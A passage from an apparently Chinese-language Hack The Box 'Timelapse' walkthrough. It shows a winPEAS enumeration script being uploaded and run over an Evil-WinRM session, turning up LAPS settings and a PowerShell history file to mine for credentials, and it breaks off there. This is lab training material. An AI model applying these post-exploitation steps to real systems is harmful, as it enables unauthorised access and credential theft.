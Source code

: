 # WinPEAS

然后我用 [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) 寻找有趣的东西:

![](img/b6e8251a12a5cb16baf2fe5a9edb2ba0.png)

下载最新版本的 winPEAS

我们可以使用我们的连接会话来上传文件:

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> upload /root/htb/timelapse/winPEAS.bat
Info: Uploading /root/htb/timelapse/winPEAS.bat to C:\Users\legacyy\Documents\winPEAS.bat
Enter PEM pass phrase:
Data: 47688 bytes of 47688 bytes copied
Info: Upload successful!
```

bat 文件可以运行，但是输出有点混乱。尽管如此，翻阅一下我们还是发现了一些有趣的事情:

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> .\winPEAS.bat

<SNIP>
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft Services\AdmPwd
    AdmPwdEnabled    REG_DWORD    0x1
[i] Active if "1"

<SNIP>
Checking PS history file
 Volume in drive C has no label.
 Volume Serial Number is 22CC-AE66
 Directory of C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
03/04/2022  12:46 AM               434 ConsoleHost_history.txt
               1 File(s)            434 bytes
               0 Dir(s)   6,101,368,832 bytes free
```

ConsoleHost_history.txt 文件包含我们所连接的用户运行的命令:
